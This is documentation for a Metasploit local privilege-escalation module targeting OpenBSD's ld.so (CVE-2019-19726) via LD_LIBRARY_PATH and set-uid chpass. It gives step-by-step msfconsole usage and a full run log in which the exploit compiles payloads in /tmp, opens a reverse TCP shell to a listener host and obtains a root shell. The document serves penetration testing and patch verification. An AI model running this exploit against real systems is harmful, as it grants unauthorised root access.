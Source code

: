 ## Description

  This module exploits a vulnerability in the OpenBSD `ld.so`
  dynamic loader (CVE-2019-19726).

  The `_dl_getenv()` function fails to reset the `LD_LIBRARY_PATH`
  environment variable when set with approximately `ARG_MAX` colons.

  This can be abused to load `libutil.so` from an untrusted path,
  using `LD_LIBRARY_PATH` in combination with the `chpass` set-uid
  executable, resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * OpenBSD 6.1 (amd64)
  * OpenBSD 6.6 (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/openbsd/local/dynamic_loader_chpass_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### CHPASS_PATH

  Path to chpass (default: `/usr/bin/chpass`)


## Scenarios

### OpenBSD 6.1 GENERIC#19 amd64

  ```
  msf > use exploit/openbsd/local/dynamic_loader_chpass_privesc 
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set verbose true
  verbose => true
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set session 1
  session => 1
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > check

  [+] Patch 013_ldso is not present
  [+] cc is installed
  [*] The service is running, but could not be validated.
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Patch 013_ldso is not present
  [+] cc is installed
  [+] Found libutil.so name: libutil.so.12.1
  [*] Writing '/tmp/.86MXG.c' (316 bytes) ...
  [*] Max line length is 4096
  [*] Writing 316 bytes in 1 chunks of 1145 bytes (octal-encoded), using printf
  [*] Compiling /tmp/libutil.so.12.1 ...
  [*] Writing '/tmp/.DRbqHJ.c' (602 bytes) ...
  [*] Max line length is 4096
  [*] Writing 602 bytes in 1 chunks of 2170 bytes (octal-encoded), using printf
  [*] Compiling /tmp/.DRbqHJ ...
  [*] Writing '/tmp/.2bowjnW1' (139 bytes) ...
  [*] Max line length is 4096
  [*] Writing 139 bytes in 1 chunks of 470 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo Y6H5kRiGDyQjzQKI;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "Y6H5kRiGDyQjzQKI\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.205:43611) at 2019-12-13 04:03:22 -0500
  [+] Deleted /tmp/.86MXG.c
  [+] Deleted /tmp/libutil.so.12.1
  [+] Deleted /tmp/.DRbqHJ.c
  [+] Deleted /tmp/.DRbqHJ
  [+] Deleted /tmp/.2bowjnW1

  id
  uid=0(root) gid=0(wheel) groups=1001(test)
  uname -a
  OpenBSD openbsd-6-1.localdomain 6.1 GENERIC#19 amd64

  ```

